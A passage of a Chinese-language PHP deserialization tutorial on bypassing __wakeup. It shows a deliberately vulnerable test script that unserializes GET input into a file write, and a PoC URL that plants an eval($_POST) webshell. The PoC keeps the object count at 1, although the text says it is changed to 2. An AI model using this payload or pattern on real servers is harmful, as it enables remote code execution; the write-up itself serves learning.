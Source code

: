 根据访问结果可以看到反序列化之前先调用了_wakeup 方法，再调
用 destruct 方法。
将传入的序列化数据的对象变量个数由1更改为2，页面只执行了__destruct方法，而且没有输出name，是由于反序列化数据时失败无法创建对象。

![image-20221014180218052](../../images/image-20221014180218052.png)

修改测试脚本如下：

```
<?php
class test{
public $name = "fairy";
public function
__wakeup(){
echo "this is __wakeup<br>";
foreach(get_object_vars($this) as $k => $v){
$this->$k = null;
}
}
public function __destruct(){
echo "this is __destruct<br>";
$fp = fopen("/var/www/html/poc.php","w");
fputs($fp,$this->name);
fclose($fp);
}
}
$str = $_GET["s"];
@$un_str = unserialize($str);
echo
$un_str->name."<br>";?>
```

构造Poc进行写入一句话木马操作。

Poc为：

```
http://ip/poc7124.php?s=O:4:"test":1:{s:4:"name";s:29:"<?php @eval($_POST['123']);?>";}
```

执行后结果如下图所示：

![image-20221014180326022](../../images/image-20221014180326022.png)
